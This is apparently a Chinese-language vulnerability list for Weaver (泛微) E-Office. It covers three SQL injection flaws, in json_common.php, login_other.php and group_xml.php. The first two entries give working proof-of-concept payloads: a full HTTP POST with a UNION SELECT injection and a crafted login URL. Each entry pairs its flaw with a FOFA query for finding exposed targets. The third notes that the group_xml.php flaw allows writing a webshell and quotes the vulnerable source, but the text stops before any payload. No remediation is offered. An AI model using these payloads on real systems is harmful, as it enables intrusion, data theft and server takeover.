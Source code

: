   
### 2.1.19泛微E-Office-json_common.phpSQL注入漏洞  
  
作为协同管理软件行业的领军企业，泛微有业界优秀的协同管理软件产品。在企业级移动互联大潮下，泛微发布了全新的以“移动化 社交化 平台化 云端化”四化为核心的全一代产品系列，其中泛微e-office为企业办公提供丰富应用，覆盖常见协作场景，开箱即用。满足人事、行政、财务、销售、运营、市场等不同部门协作需求，帮助组织高效人事管理。系统 json_common.php 文件存在SQL注入漏洞，容易导致数据泄露以及被远控。  
- fofa  
app="泛微-EOffice"  
- poc  
```
POST /building/json_common.php HTTP/1.1
Host: 192.168.86.128:8097
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 87
Accept: */*
Accept-Language: en
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

tfs=city` where cityId =-1 /*!50000union*/ /*!50000select*/1,2,md5(102103122) ,4#|2|333
```  
  
  
### 2.1.20泛微E-Office系统login_other.php存在sql注入漏洞  
  
泛微E-Office系统/E-mobile/Data/login_other.php?diff=sync&auth=存在sql注入漏洞  
- fofa  
app="泛微-EOffice"  
- poc  
/E-mobile/Data/login_other.php?diff=sync&auth={"auths":[{"value":"-1' UNION SELECT 1,2,md5(123456),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51%23"}]}  
### 2.1.21泛微OA E-Office group_xml.php SQL注入漏洞  
  
1.漏洞描述  
  
泛微OA E-Office group_xml.php文件存在SQL注入漏洞，攻击者通过漏洞可以写入Webshell文件获取服务器权限  
  
2.漏洞影响  
  
泛微OA E-Office 8   
  
3.网络测绘  
  
app="泛微-EOffice"  
  
4.漏洞复现  
  
登录页面  
  
存在漏洞的文件为 inc/group_user_list/group_xml.php  
```
session_start( );
include_once( "inc/conn.php" );
include_once( "inc/xtree_xml.inc.php" );
include_once( "inc/utility_all.php" );
header( "Expires: Mon, 26 Jul 1997 05:00:00 GMT" );
header( "Cache-Control: no-cache, must-revalidate" );
header( "Pragma: no-cache" );
header( "Content-Type: text/xml" );
$pararr = explodestpar( $_REQUEST['par'] );
$groupid = $pararr['groupid'];
if ( $groupid == "" )
{
                exit( );
}
```